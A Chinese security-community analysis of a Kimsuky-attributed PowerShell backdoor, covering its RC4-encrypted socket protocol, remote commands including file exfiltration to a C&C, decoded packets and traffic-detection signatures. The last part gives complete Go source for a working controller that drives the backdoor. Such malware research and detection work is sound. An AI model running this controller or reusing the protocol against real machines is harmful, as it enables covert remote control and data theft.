# 推陈出新！Kimsuky组织最新远控组件攻击场景复现 - 先知社区

## 概述

近期，笔者在浏览网络中威胁情报信息的时候，发现twitter上有人发布了一篇推文，推文的大概意思是推文作者获得了Kimsuky组织使用的PowerShell后门，同时推文作者还赋了一张截图，截图上展示了PowerShell后门的控制端程序的GUI界面。

笔者之前也跟踪过Kimsuky组织，对其所使用的攻击组件有过一些研究，不过此次却是笔者第一次见到其使用PowerShell后门作为最终远控木马端，因此，笔者准备对该PowerShell后门进行详细的深度剖析：

-   功能分析：发现其使用socket套接字进行网络通信，通信加密算法为RC4，支持12个远控功能指令；
-   通信模型分析：结合后门通信数据包对其通信模型进行详细的对比分析；
-   逆向开发控制端：模拟构建PowerShell后门控制端，可有效还原攻击利用场景；

相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324222950-f9442d34-e9ea-1.png)

## PowerShell后门分析

### 外联上线

通过分析，发现此PowerShell后门运行后，即会根据配置的外联地址发起socket套接字上线通信，默认配置信息为127.0.0.1:8888。

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324223007-030cd15e-e9eb-1.png)

### 通信密钥交互

通过分析，发现此PowerShell后门将使用RC4对称加密算法对通信数据进行加解密，即当建立socket套接字连接后，该后门将把RC4密钥信息发送至控制端，发送RC4密钥的大致流程如下：

-   使用MD5算法对Mac地址与IP地址拼接的字符串进行Hash运行；
-   使用socket套接字发送MD5字符串；
-   RC4算法密钥信息
    -   SendKey：MD5值+"\_r"
    -   RecvKey：MD5值+"\_s"

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324223026-0e3cc994-e9eb-1.png)

### RC4加密通信

通过将此PowerShell后门的RC4加密算法与Golang语言的"crypto/rc4"库中的RC4算法进行对比，发现：

-   此PowerShell后门的PrePare\_Key函数即为Golang语言"crypto/rc4"库中func NewCipher(key \[\]byte) (\*Cipher, error) 函数；
-   此PowerShell后门的Rc4\_Crypt函数即为Golang语言"crypto/rc4"库中func (c \*Cipher) XORKeyStream(dst, src \[\]byte)函数；

PowerShell后门RC4算法代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324223042-1836a316-e9eb-1.png)

Golang语言的"crypto/rc4"库中的RC4算法代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324223057-211d71a8-e9eb-1.png)

### 远控功能

通过分析，发现此PowerShell后门支持12个远控指令，梳理远控指令列表如下：

| 远控指令 | 对应功能函数 | 描述  |
| --- | --- | --- |
| OP\_REQ\_DRIVE\_LIST | ProcessDriveList | 获取磁盘信息 |
| OP\_REQ\_PATH\_LIST | ProcessPathList | 获取指定目录文件列表 |
| OP\_REQ\_PATH\_DELETE | ProcessPathDelete | 删除文件 |
| OP\_REQ\_EXECUTE | ProcessPathExecute | 启动程序 |
| OP\_REQ\_CREATE\_ZIP | ProcessPathZip | 将目录打包成zip文件 |
| OP\_REQ\_PATH\_RENAME | ProcessPathRename | 重命名文件 |
| OP\_REQ\_CREATE\_DIR | ProcessCreateDir | 创建目录 |
| OP\_REQ\_PATH\_DOWNLOAD | ProcessPathDownload | 将指定文件或目录通过POST请求发送至指定C&C |
| OP\_REQ\_CLOSE |     | 关闭socket连接 |
| OP\_REQ\_REMOVE |     | 关闭socket连接 |
| OP\_REQ\_RESTART |     | 关闭socket连接并重连 |
| OP\_REQ\_FILE\_UPLOAD |     | 上传文件 |

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325101940-22929744-ea4e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325101952-2a051970-ea4e-1.png)

#### ProcessPathList

通过分析，发现当PowerShell后门接收到OP\_REQ\_PATH\_LIST指令后，将从接收指令中提取信息，并返回指定目录中的文件列表信息，大致流程如下：

-   从接收指令中提取信息：4字节DirPathLen、DirPath
-   返回信息结构如下：
    -   RecvData：控制端发送的远控指令载荷内容
    -   4字节Count：获取DirPath目录中的文件及目录的数量
    -   InfoLen：目录或文件信息的长度
    -   ByInfo：以";"分割相关信息
        -   ByInfo目录信息："0"、目录名、""、目录修改时间
        -   ByInfo文件信息："1"、文件名、文件长度、文件修改时间

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102006-326d40f6-ea4e-1.png)

#### ProcessPathExecute

通过分析，发现当PowerShell后门接收到OP\_REQ\_EXECUTE指令后，将从接收指令中提取信息，并启动程序，大致流程如下：

-   从接收指令中提取信息：4字节PathLen、Path、4字节IsDir
-   调用Invoke-Expression命令启动程序

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102021-3b239844-ea4e-1.png)

#### ProcessPathDownload

通过分析，发现当PowerShell后门接收到OP\_REQ\_PATH\_DOWNLOAD指令后，将从接收指令中提取信息，把指定文件或目录通过POST请求发送至指定C&C处，大致流程如下：

-   从接收指令中提取信息：4字节PathLen、Path、4字节IsDir、**4字节UrlLen、Url**
-   若IsDir值为真，则将Path路径下文件打包成zip文件
-   读取待下载文件的载荷，并将其base64编码
-   使用POST请求将载荷内容发送至**“Url/show.php”**链接处（**Url值**为接收指令中提取的信息）

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102035-435fae76-ea4e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102052-4db75d42-ea4e-1.png)

## PowerShell后门通信模型分析

为了能够更全面的对Kimsuky组织使用的PowerShell后门技术进行剖析，笔者准备在样本分析的基础上，再同时对其通信模型进行详细的剖析，并根据其通信模型特点，梳理提取可针对于Kimsuky组织PowerShell后门的网络流量检测方法。

### 攻击场景还原

为了能够更好的还原Kimsuky组织PowerShell后门的攻击场景，笔者尝试模拟构建了一款Kimsuky组织PowerShell后门控制端程序，目前可有效的与PowerShell后门进行交互，相关运行效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102107-56589baa-ea4e-1.png)

相关通信数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102122-5f665d7c-ea4e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102137-683f977e-ea4e-1.png)

相关操作流程如下：

```plain
Server started. Listening on 0.0.0.0:8888
nOpCode:0x0401
nUniqueIdLen:5FD47DF267932964A5B9340E55416BA1
请选择需执行的功能:help、OP_REQ_CLOSE、OP_REQ_DRIVE_LIST、OP_REQ_PATH_LIST
>help
********支持功能如下********
OP_REQ_CLOSE：关闭连接
OP_REQ_DRIVE_LIST：查看磁盘信息
OP_REQ_PATH_LIST：查看目录
**************************
请选择需执行的功能:help、OP_REQ_CLOSE、OP_REQ_DRIVE_LIST、OP_REQ_PATH_LIST
>OP_REQ_DRIVE_LIST
nOpCode:0xOP_RES_DRIVE_LIST
DriveCount:1
InfoLen:21
DisplayName:C:\()[Fixed,NTFS]
RootDirectory:C:\
请选择需执行的功能:help、OP_REQ_CLOSE、OP_REQ_DRIVE_LIST、OP_REQ_PATH_LIST
>OP_REQ_PATH_LIST
nOpCode:0xOP_RES_PATH_LIST
Command Dir:C:\Users\admin\AppData\Local\Temp
Count:59
Dir     Low             11/27/2023 14:18:39
Dir     vmware-admin            12/28/2016 11:23:04
Dir     WPDNSE          11/27/2023 14:57:17
File    admin.bmp       49208   12/28/2016 10:38:29
File    ASPNETSetup_00000.log   4128    01/25/2024 09:15:13
File    ASPNETSetup_00001.log   2966    01/25/2024 09:15:15
File    dd_NDP462-KB3151800-x86-x64-AllOS-ENU_decompression_log.txt     1145    01/25/2024 09:17:33
File    dd_SetupUtility.txt     1702    01/25/2024 09:16:13
File    dd_vcredistMSI3DE8.txt  413058  12/28/2016 10:38:48
File    dd_vcredistMSI3E33.txt  422262  12/28/2016 10:39:00
File    dd_vcredistUI3DE8.txt   11634   12/28/2016 10:38:48
File    dd_vcredistUI3E33.txt   11698   12/28/2016 10:39:00
File    dd_vcredist_amd64_20231127134511.log    17423   11/27/2023 13:45:14
File    dd_vcredist_amd64_20231127134511_000_vcRuntimeMinimum_x64.log   124164  11/27/2023 13:45:14
File    dd_vcredist_amd64_20231127134511_001_vcRuntimeAdditional_x64.log        130754  11/27/2023 13:45:14
File    dd_vcredist_amd64_20231127135758.log    12954   11/27/2023 13:58:00
File    dd_vcredist_amd64_20231127142907.log    12954   11/27/2023 14:29:10
File    dd_vcredist_x86_20231127134400.log      17440   11/27/2023 13:45:11
File    dd_vcredist_x86_20231127134400_001_vcRuntimeMinimum_x86.log     124342  11/27/2023 13:45:10
File    dd_vcredist_x86_20231127134400_002_vcRuntimeAdditional_x86.log  136626  11/27/2023 13:45:11
File    dd_vcredist_x86_20231127135754.log      12145   11/27/2023 13:57:58
File    dd_vcredist_x86_20231127142902.log      12145   11/27/2023 14:29:07
File    dd_wcf_CA_smci_20240125_011505_902.txt  7166    01/25/2024 09:15:07
File    dd_wcf_CA_smci_20240125_011507_384.txt  2694    01/25/2024 09:15:07
File    DMI15E0.tmp     0       11/27/2023 13:49:00
File    DMI1777.tmp     0       11/27/2023 13:49:01
File    DMI1F3.tmp      0       11/27/2023 14:10:01
File    DMI35B.tmp      0       11/27/2023 14:10:01
File    DMI4D2.tmp      0       11/27/2023 14:10:01
File    DMI5D.tmp       0       11/27/2023 14:16:33
File    DMIC31F.tmp     0       11/27/2023 14:16:18
File    FXSAPIDebugLogFile.txt  0       12/28/2016 10:39:06
File    Microsoft .NET Framework 4.6.2 Setup_20240125_091143716-MSI_netfx_Full_x64.msi.txt      10773126        01/25/2024 09:16:13
File    Microsoft .NET Framework 4.6.2 Setup_20240125_091143716.html    757334  01/25/2024 09:16:14
File    Python 3.11.3 (64-bit)_20231127145147.log       11342   11/27/2023 14:51:53
File    Python 3.7.4 (64-bit)_20231127145205.log        76307   11/27/2023 14:52:32
File    Python 3.7.4 (64-bit)_20231127145205_000_core_JustForMe.log     86202   11/27/2023 14:52:16
File    Python 3.7.4 (64-bit)_20231127145205_001_dev_JustForMe.log      307366  11/27/2023 14:52:16
File    Python 3.7.4 (64-bit)_20231127145205_002_exe_JustForMe.log      113564  11/27/2023 14:52:17
File    Python 3.7.4 (64-bit)_20231127145205_003_lib_JustForMe.log      1927106 11/27/2023 14:52:19
File    Python 3.7.4 (64-bit)_20231127145205_004_test_JustForMe.log     2525184 11/27/2023 14:52:22
File    Python 3.7.4 (64-bit)_20231127145205_005_doc_JustForMe.log      95712   11/27/2023 14:52:23
File    Python 3.7.4 (64-bit)_20231127145205_006_tools_JustForMe.log    314582  11/27/2023 14:52:23
File    Python 3.7.4 (64-bit)_20231127145205_007_tcltk_JustForMe.log    3176288 11/27/2023 14:52:27
File    Python 3.7.4 (64-bit)_20231127145205_008_launcher_AllUsers.log  105518  11/27/2023 14:52:27
File    Python 3.7.4 (64-bit)_20231127145205_009_pip_JustForMe.log      84778   11/27/2023 14:52:31
File    RGI951F.tmp     10434   01/25/2024 09:15:10
File    RGI951F.tmp-tmp 9000    01/25/2024 09:15:10
File    storePwd.exe    71872   12/28/2016 10:10:18
File    storePwd.ini    24      12/28/2016 10:10:18
File    StructuredQuery.log     46323   11/27/2023 14:25:00
File    unattend.cmd    555     12/28/2016 10:10:18
File    upgrader.exe    599232  12/28/2016 10:10:18
File    vminst.log      2516836 11/27/2023 14:31:10
File    vmmsi.log_20161228_104115.log   3112056 12/28/2016 10:41:15
File    vmmsi.log_20231127_135240_Failed.log    5020132 11/27/2023 13:52:40
File    vmmsi.log_20231127_141057_Failed.log    3292586 11/27/2023 14:10:57
File    vmmsi.log_20231127_143110.log   3178564 11/27/2023 14:31:10
File    wmsetup.log     1869    11/27/2023 14:27:32
请选择需执行的功能:help、OP_REQ_CLOSE、OP_REQ_DRIVE_LIST、OP_REQ_PATH_LIST
>OP_REQ_CLOSE
```

### 通信模型剖析

梳理Kimsuky组织PowerShell后门通信模型如下：

-   通信密钥交互

```plain
#********第一段通信数据    木马端 > 控制端
010424000000200000003546443437444632363739333239363441354239333430453535343136424131
#数据包解析
0104    #_OP_CODE   =0x401==OP_UNIQ_ID
24000000    #载荷数据长度 =0x24
20000000    #nUniqueIdLen数据长度   =0x20
#对应字符串：5FD47DF267932964A5B9340E55416BA1 MD5值，将用作RC4密钥
3546443437444632363739333239363441354239333430453535343136424131
```

-   OP\_REQ\_DRIVE\_LIST：查看磁盘信息

```plain
#********控制端    >   木马端
0600000039882655d01d067e859b
#1.数据包解析
06000000    #载荷数据长度 =0x06
39882655d01d067e859b    #RC4加密载荷数据
#2.RC4解密    解密密钥：5FD47DF267932964A5B9340E55416BA1_s
02040400000011111111
#3.载荷解析
0204        #_OP_CODE   =0x402==OP_REQ_DRIVE_LIST
04000000    #载荷数据长度 =0x04
11111111    #笔者编写代码时随机填充的无效数据

#********木马端    >   控制端
2300000044ca569d2ec0ffb7a6ae4b90d224c4fd429a28f64d540caa1425161fda0c3ac2584a12
#1.数据包解析
23000000    #载荷数据长度 =0x23
#RC4加密载荷数据
44ca569d2ec0ffb7a6ae4b90d224c4fd429a28f64d540caa1425161fda0c3ac2584a12
#2.RC4解密    解密密钥：5FD47DF267932964A5B9340E55416BA1_r
03041d0000000100000015000000433a5c28295b46697865642c4e5446535d3b433a5c
#3.载荷解析
0304        #_OP_CODE   =0x403==OP_RES_DRIVE_LIST
1d000000    #载荷数据长度 =0x1d
01000000    #DriveCount，磁盘数量
15000000    #InfoLen，磁盘信息长度
#对应字符串：C:\()[Fixed,NTFS];C:\
433a5c28295b46697865642c4e5446535d3b433a5c
#4.磁盘信息解析   以;分割
C:\()[Fixed,NTFS]   #DisplayName
C:\                 #RootDirectory
```

-   OP\_REQ\_PATH\_LIST：获取指定目录文件列表

```plain
#********控制端    >   木马端
2700000008ea9e282c214b0a0f180312fae8293185629e4ae2713272303f8f73be7dcc0cb13279e2333142c89d41ef
#数据包解析
27000000    #载荷数据长度 =0x27
#RC4加密载荷数据
08ea9e282c214b0a0f180312fae8293185629e4ae2713272303f8f73be7dcc0cb13279e2333142c89d41ef
#2.RC4解密    解密密钥：5FD47DF267932964A5B9340E55416BA1_s
04042500000021000000433a5c55736572735c61646d696e5c417070446174615c4c6f63616c5c54656d70
#3.载荷解析
0404        #_OP_CODE   =0x404==OP_REQ_PATH_LIST
25000000    #载荷数据长度 =0x25
21000000    #载荷数据长度 =0x21
#对应字符串：C:\Users\admin\AppData\Local\Temp
433a5c55736572735c61646d696e5c417070446174615c4c6f63616c5c54656d70

#********木马端    >   控制端
f50e00002103e6faacb4d1f2834bf5ba895f971dcfa23f9e91fd4b9745eb2bc63...省略7566字节数据...6023ffddc8a702c0cad037354265b3e272a
#数据包解析
f50e0000    #载荷数据长度 =0xef5
#RC4加密载荷数据
f50e00002103e6faacb4d1f2834bf5ba895f971dcfa23f9e91fd4b9745eb2bc634fcbf0f3c7a01c5c48af2195e43bee07e4cce20f2f1a9823a1e5de47de516d0442165e02f4495b34bc62a559da41eb8db7d1eed6ed8bbed418cd8b6c8e022d00997b132af5843c131ec58ab6b2acc6fb6278b2bd2bf8d66bb307ac49e28d8b36ab99d5164709e421dc8262df2c5529787e4d27dbd0c459dc7f6734044166fb16e44b705509dfad6a81db120caba3055a551e6f2c3245a413427bf6c7c2acf364517959a5cb576dd0a4ac3ab47f29bb0671a3622b362ce45f32a8dfaf000d3798911731809356e08c2aa1adb600102af57e722c1dd85cf03f738117278525bc1f4bb7f7fb289aa416f8bd40291571c79f5839307b04e044d9d8266ca1a67b91aa6f48dddeb8c852ed0e807122d68a8fd50e021d9e0708dab9918a3266b49ec9a42e4066864b8382697c6fd69d739edaba6f1c36dcd8fb...省略6900字节...6232a687f361e851fb0ff4ccdd8abe12aaac2d01b08aac6023ffddc8a702c0cad037354265b3e272a
#2.RC4解密    解密密钥：5FD47DF267932964A5B9340E55416BA1_r
0504ef0e000021000000433a5c55736572735c61646d696e5c417070446174615c4c6f63616c5c54656d703b0000001a000000303b4c6f773b3b31312f32372f323032332031343a31383a333923000000303b766d776172652d61646d696e3b3b31322f32382f323031362031313a32333a30341d000000303b5750444e53453b3b31312f32372f323032332031343a35373a313725000000313b61646d696e2e626d703b34393230383b31322f32382f323031362031303a33383a323930000000313b4153504e455453657475705f30303030302e6c6f673b343132383b30312f32352f323032342030393a31353a313330000000313b4153504e455...省略7100字节...6393b31312f32372f323032332031343a32373a333200000000
#3.载荷解析
0504        #_OP_CODE   =0x405==OP_RES_PATH_LIST
ef0e0000    #载荷数据长度 =0xeef
#控制端向木马端发送的远控指令数据
21000000433a5c55736572735c61646d696e5c417070446174615c4c6f63616c5c54656d70
3b000000    #Count，文件数量     =0x3b==59
#循环解析后续载荷数据，共有59段数据
1a000000    #目录或文件信息长度
#对应字符串：0;Low;;11/27/2023 14:18:39
303b4c6f773b3b31312f32372f323032332031343a31383a3339
#目录或文件信息，以;分割
0       #0代表目录
Low     #目录或文件名
11/27/2023 14:18:39     #目录或文件修改时间
```

相关载荷截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102201-76b1bb0c-ea4e-1.png)

-   心跳通信

```plain
#********木马端    >   控制端
00
```

相关通信数据包截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102221-82a8538a-ea4e-1.png)

相关代码截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102236-8b783412-ea4e-1.png)

### 通信流量检测方法

结合通信模型提取通信流量检测方法，检测特征如下：

-   第一段通信数据的长度固定为42字节
-   第一段通信数据的前10字节固定为：01042400000020000000
-   存在心跳通信数据包，且心跳通信数据为00
-   由于远控指令交互数据通信数据结构为：4字节载荷数据长度+载荷数据，因此可通过载荷数据长度对其远控指令交互数据通信进行识别检测

## 逆向开发PowerShell后门控制端

在逆向开发PowerShell后门控制端时，整体还是比较顺利，只是有一点可能容易忽略，就是笔者发现PowerShell后门通信数据中的载荷长度字节与PowerShell后门代码中的载荷长度字节的字节序不一样。

### 代码实现

在这里，笔者将使用golang语言模拟构建Kimsuky组织PowerShell后门控制端，详细情况如下：

代码结构如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240325102257-97cce7e4-ea4e-1.png)

-   main.go

```plain
package main

import (
    "awesomeProject5/command"
    "awesomeProject5/common"
    "bufio"
    "crypto/rc4"
    "encoding/hex"
    "fmt"
    "net"
    "os"
    "time"
)

func main() {
    address := "0.0.0.0"
    port := "8888"

    // 创建监听器
    listener, err := net.Listen("tcp", address+":"+port)
    if err != nil {
        fmt.Println("Error listening:", err.Error())
        return
    }
    defer listener.Close()

    fmt.Println("Server started. Listening on " + address + ":" + port)

    for {
        conn, err := listener.Accept()
        if err != nil {
            fmt.Println("Error accepting connection:", err.Error())
            return
        }

        // 处理服务端连接
        go handle_Kimsuky_powershell_Connection(conn)
    }
}

func handle_Kimsuky_powershell_Connection(conn net.Conn) {
    defer conn.Close()

    firstbuf := common.RecvData(conn, 42)
    nOpCode, Data := common.DecodeData(firstbuf, false, nil)

    nUniqueIdLen := []byte{}
    nUniqueIdLen = append(nUniqueIdLen, Data[:4]...)
    common.Reversedata(&nUniqueIdLen)

    ByUniqueId := []byte{}
    ByUniqueId = append(ByUniqueId, Data[4:]...)

    fmt.Println("nOpCode:0x" + hex.EncodeToString(nOpCode))
    fmt.Println("nUniqueIdLen:" + string(ByUniqueId))

    SendKeyData := string(ByUniqueId) + "_r"
    RecvKeyData := string(ByUniqueId) + "_s"

    Global_SendKey, _ := rc4.NewCipher([]byte(SendKeyData))
    Global_RecvKey, _ := rc4.NewCipher([]byte(RecvKeyData))

    encdata := make(chan []byte)
    go keepaliveAndRecvHeader(conn, encdata)
    for {

        text := ""
        fmt.Print("请选择需执行的功能:help、OP_REQ_CLOSE、OP_REQ_DRIVE_LIST、OP_REQ_PATH_LIST\n>")
        reader := bufio.NewScanner(os.Stdin)
        if reader.Scan() {
            text = reader.Text()
            if text == "OP_REQ_CLOSE" {
                common.SendBuf(conn, Global_RecvKey, 0x411, []byte{0x11, 0x11, 0x11, 0x11})
                time.Sleep(1 * time.Second)
                os.Exit(1)
            } else if text == "OP_REQ_DRIVE_LIST" {
                common.SendBuf(conn, Global_RecvKey, 0x402, []byte{0x11, 0x11, 0x11, 0x11})
                EncData := <-encdata
                nOpCode, Data = common.DecodeData(EncData, true, Global_SendKey)
                fmt.Println("nOpCode:0x" + common.Enum_OP_CODE(hex.EncodeToString(nOpCode)))
                command.ProcessDriveList(Data)
            } else if text == "OP_REQ_PATH_LIST" {
                buf := []byte("C:\\Users\\admin\\AppData\\Local\\Temp")
                buflen := common.IntToBytes(len(buf))
                common.Reversedata(&buflen)
                common.SendBuf(conn, Global_RecvKey, 0x404, append(buflen, buf...))
                EncData := <-encdata
                //fmt.Println(hex.EncodeToString(EncData))
                nOpCode, Data = common.DecodeData(EncData, true, Global_SendKey)
                fmt.Println("nOpCode:0x" + common.Enum_OP_CODE(hex.EncodeToString(nOpCode)))
                command.ProcessPathList(Data)
            } else if text == "help" {
                fmt.Println("********支持功能如下********")
                fmt.Println("OP_REQ_CLOSE：关闭连接")
                fmt.Println("OP_REQ_DRIVE_LIST：查看磁盘信息")
                fmt.Println("OP_REQ_PATH_LIST：查看目录")
                fmt.Println("**************************")
            }
        }
        if err := reader.Err(); err != nil {
            fmt.Fprintln(os.Stderr, "读取标准输入时发生错误:", err)
            os.Exit(1)
        }
    }
}

func keepaliveAndRecvHeader(conn net.Conn, encdata chan []byte) {
    EncDataLen := []byte{}
    for {
        EncDataLen = common.RecvHeader(conn)
        common.Reversedata(&EncDataLen)
        if len(EncDataLen) > 0 && common.BytesToInt(EncDataLen) > 0 {
            Data := common.RecvData(conn, common.BytesToInt(EncDataLen))
            for {
                if len(Data) >= common.BytesToInt(EncDataLen) {
                    break
                } else {
                    data := common.RecvData(conn, common.BytesToInt(EncDataLen)-len(Data))
                    Data = append(Data, data...)
                }
            }
            encdata <- Data
        }
    }
}
```

-   common.go

```plain
package common

import (
    "bytes"
    "crypto/rc4"
    "encoding/binary"
    "fmt"
    "net"
)

func Reversedata(arr *[]byte) {
    var temp byte
    length := len(*arr)
    for i := 0; i < length/2; i++ {
        temp = (*arr)[i]
        (*arr)[i] = (*arr)[length-1-i]
        (*arr)[length-1-i] = temp
    }
}

func BytesToInt(bys []byte) int {
    bytebuff := bytes.NewBuffer(bys)
    var data int32
    binary.Read(bytebuff, binary.BigEndian, &data)
    return int(data)
}

func IntToBytes(n int) []byte {
    data := int32(n)
    bytebuf := bytes.NewBuffer([]byte{})
    binary.Write(bytebuf, binary.BigEndian, data)
    return bytebuf.Bytes()
}

func IntToBytes_mode(n int, b byte) ([]byte, error) {
    switch b {
    case 1:
        tmp := int8(n)
        bytesBuffer := bytes.NewBuffer([]byte{})
        binary.Write(bytesBuffer, binary.BigEndian, &tmp)
        return bytesBuffer.Bytes(), nil
    case 2:
        tmp := int16(n)
        bytesBuffer := bytes.NewBuffer([]byte{})
        binary.Write(bytesBuffer, binary.BigEndian, &tmp)
        return bytesBuffer.Bytes(), nil
    case 3, 4:
        tmp := int32(n)
        bytesBuffer := bytes.NewBuffer([]byte{})
        binary.Write(bytesBuffer, binary.BigEndian, &tmp)
        return bytesBuffer.Bytes(), nil
    }
    return nil, fmt.Errorf("IntToBytes b param is invaild")
}

func RecvHeader(conn net.Conn) []byte {
    buffer := make([]byte, 4)
    bytesRead, err := conn.Read(buffer)
    if err != nil {
        //fmt.Println("Error reading:", err.Error())
    }
    return buffer[:bytesRead]
}

func RecvData(conn net.Conn, buflen int) []byte {
    buffer := make([]byte, buflen)
    bytesRead, err := conn.Read(buffer)
    if err != nil {
        fmt.Println("Error reading:", err.Error())
    }
    return buffer[:bytesRead]
}

func DecodeData(recv_buf []byte, isenc bool, Global_SendKey *rc4.Cipher) ([]byte, []byte) {
    recvbuf := []byte{}
    if isenc {
        enc_recv_buf := make([]byte, len(recv_buf))
        Global_SendKey.XORKeyStream(enc_recv_buf, recv_buf)

        recvbuf = enc_recv_buf
    } else {
        recvbuf = recv_buf
    }

    //2字节
    nOpCode := []byte{}
    nOpCode = append(nOpCode, recvbuf[:2]...)
    Reversedata(&nOpCode)
    //4字节
    nDataLen := []byte{}
    nDataLen = append(nDataLen, recvbuf[2:6]...)
    Reversedata(&nDataLen)

    Data := []byte{}
    Data = append(Data, recvbuf[6:]...)

    if BytesToInt(nDataLen) != len(Data) {
        fmt.Println("RecvBuf Error!")
        return nil, nil
    }
    return nOpCode, Data
}

func SendBuf(conn net.Conn, Global_RecvKey *rc4.Cipher, OpCode int, Data []byte) {
    //第一段加密：EncDataLen(4) + OPCODE(2), DataLen(4)
    //第二段加密：Data(DataLen)
    send_buf := []byte{}
    buf_header := []byte{}

    opcode, _ := IntToBytes_mode(OpCode, byte(2))
    Reversedata(&opcode)

    //EncDataLen
    EncDataLen := IntToBytes(len(opcode) + len(Data))
    Reversedata(&EncDataLen)
    send_buf = append(send_buf, EncDataLen...)
    //OPCODE
    buf_header = append(buf_header, opcode...)
    //DataLen
    Data_len := IntToBytes(len(Data))
    Reversedata(&Data_len)
    buf_header = append(buf_header, Data_len...)
    //加密
    enc_buf_header := make([]byte, len(buf_header))
    Global_RecvKey.XORKeyStream(enc_buf_header, buf_header)
    send_buf = append(send_buf, enc_buf_header...)

    //Data(DataLen)
    enc_Data := make([]byte, len(Data))
    Global_RecvKey.XORKeyStream(enc_Data, Data)
    send_buf = append(send_buf, enc_Data...)

    conn.Write(send_buf)
    //fmt.Println(hex.EncodeToString(send_buf))
}

func Enum_OP_CODE(op_code string) (str_op_code string) {
    switch op_code {
    case "0401":
        str_op_code = "OP_UNIQ_ID"
    case "0402":
        str_op_code = "OP_REQ_DRIVE_LIST"
    case "0403":
        str_op_code = "OP_RES_DRIVE_LIST"
    case "0404":
        str_op_code = "OP_REQ_PATH_LIST"
    case "0405":
        str_op_code = "OP_RES_PATH_LIST"
    case "0406":
        str_op_code = "OP_REQ_PATH_DOWNLOAD"
    case "0407":
        str_op_code = "OP_RES_PATH_DOWNLOAD"
    case "0408":
        str_op_code = "OP_REQ_PATH_DELETE"
    case "0409":
        str_op_code = "OP_RES_PATH_DELETE"
    case "040A":
        str_op_code = "OP_REQ_FILE_UPLOAD"
    case "040B":
        str_op_code = "OP_RES_FILE_UPLOAD"
    case "040C":
        str_op_code = "OP_REQ_PATH_RENAME"
    case "040D":
        str_op_code = "OP_RES_PATH_RENAME"
    case "040E":
        str_op_code = "OP_REQ_CREATE_DIR"
    case "040F":
        str_op_code = "OP_RES_CREATE_DIR"
    case "0410":
        str_op_code = "OP_REQ_RESTART"
    case "0411":
        str_op_code = "OP_REQ_CLOSE"
    case "0412":
        str_op_code = "OP_REQ_REMOVE"
    case "0413":
        str_op_code = "OP_RES_DRIVE_ERROR"
    case "0414":
        str_op_code = "OP_REQ_EXECUTE"
    case "0415":
        str_op_code = "OP_RES_EXECUTE"
    case "0416":
        str_op_code = "OP_REQ_CREATE_ZIP"
    case "0417":
        str_op_code = "OP_RES_CREATE_ZIP"
    default:
        str_op_code = "test"
    }
    return
}
```

-   command.go

```plain
package command

import (
    "awesomeProject5/common"
    "fmt"
    "strconv"
    "strings"
)

func ProcessDriveList(buffer []byte) {
    //DriveCount
    //InfoLen
    //ByInfo = DisplayName;RootDirectory
    //fmt.Println(hex.EncodeToString(buffer))

    DriveCount := []byte{}
    DriveCount = append(DriveCount, buffer[:4]...)
    common.Reversedata(&DriveCount)
    fmt.Println("DriveCount:" + strconv.Itoa(common.BytesToInt(DriveCount)))

    InfoLen := []byte{}
    InfoLen = append(InfoLen, buffer[4:8]...)
    common.Reversedata(&InfoLen)
    fmt.Println("InfoLen:" + strconv.Itoa(common.BytesToInt(InfoLen)))

    ByInfo := []byte{}
    ByInfo = append(ByInfo, buffer[8:]...)
    tmp := strings.Split(string(ByInfo), ";")
    DisplayName := tmp[0]
    RootDirectory := tmp[1]
    fmt.Println("DisplayName:" + DisplayName)
    fmt.Println("RootDirectory:" + RootDirectory)
}

func ProcessPathList(buffer []byte) {
    //RecvData
    //Count
    //InfoLen,ByInfo
    //dir= "0;" + $dir.Name + ";"+";" + $dir.LastWriteTime;
    //file = "1;" + $file.Name + ";" + $file.Length + ";" + $file.LastWriteTime;
    //fmt.Println(hex.EncodeToString(buffer))
    num := 0
    Len_RecvData := []byte{}
    Len_RecvData = append(Len_RecvData, buffer[:4]...)
    common.Reversedata(&Len_RecvData)
    num = num + 4 + common.BytesToInt(Len_RecvData)
    fmt.Println("Command Dir:" + string(buffer[4:4+common.BytesToInt(Len_RecvData)]))

    Count := []byte{}
    Count = append(Count, buffer[num:num+4]...)
    common.Reversedata(&Count)
    num = num + 4
    fmt.Println("Count:" + strconv.Itoa(common.BytesToInt(Count)))

    for {
        if num >= len(buffer) {
            break
        }
        InfoLen := []byte{}
        InfoLen = append(InfoLen, buffer[num:num+4]...)
        common.Reversedata(&InfoLen)
        num = num + 4
        ByInfo := string(buffer[num : num+common.BytesToInt(InfoLen)])
        num = num + common.BytesToInt(InfoLen)
        tmp := strings.Split(ByInfo, ";")
        if tmp[0] == "0" {
            fmt.Println("Dir\t" + tmp[1] + "\t" + tmp[2] + "\t" + tmp[3])
        } else if tmp[0] == "1" {
            fmt.Println("File\t" + tmp[1] + "\t" + tmp[2] + "\t" + tmp[3])
        }
    }
}
```